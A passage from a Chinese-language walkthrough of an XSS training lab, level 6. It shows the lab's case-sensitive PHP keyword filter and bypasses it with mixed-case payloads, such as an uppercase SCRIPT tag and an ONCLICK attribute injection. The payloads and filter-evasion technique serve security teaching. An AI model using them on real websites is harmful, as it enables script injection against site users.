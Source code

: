 ```html
<input name="keyword" value=""> <a href="javascript:alert()">hack it</a>"&gt;
```



## 第 06 关：关键字大小写混合绕过

在输入框直接注入 `<script>alert()</script>`，然后右击查看网页源代码，发现 <h2> 标签里面的内容被 HTML 实体化了，<input> 标签里 value 属性的部分内容有被替换过的痕迹，emmmm怎么和第五关一样？？！！

```html
<h2 align=center>没有找到和&lt;script&gt;alert('hack')&lt;/script&gt;相关的结果.</h2><center>
```

```html
<input name=keyword  value="<scr_ipt>alert('hack')</script>">
```

那么尝试使用第五关的 payload：

```js
// 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
"> <a href=javascript:alert()>hack it</a>
```

发现，**href**关键字也被替换过了！

```html
<input name=keyword  value=""> <a hr_ef=javascript:alert()>hack it</a>">
```

看下后端用于替换关键字的源码吧，`on`、`src`、`data`、`href` 关键字都会被替换掉！但是但是但是，发现在替换关键字之前并不会先将其转换为统一的小写或大写字母，那么解题思路就很清晰咯~

```html
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>

<input name=keyword  value="'.$str6.'">
```

解题思路1：标签闭合 + JS注入，这里的 payload 同第二关，只不过把 script 改成了大写而已：

```js
// 符号 "> 用于闭合 input 标签，即构成 <input name=keyword  value="">
"><SCRIPT>alert()</SCRIPT>
```

解题思路2：标签属性闭合 + 注入事件属性，这里的 payload 同第四关，只不过把 onclick 改成了大写而已：

```js
// 第 1 个双引号用于与 value 属性的第一个双引号构成闭合, 即构成 value=""
// 第 2 个双引号用于与 value 属性的第二个双引号构成闭合, 即构成 onclick="alert()"
" ONCLICK="alert()
```
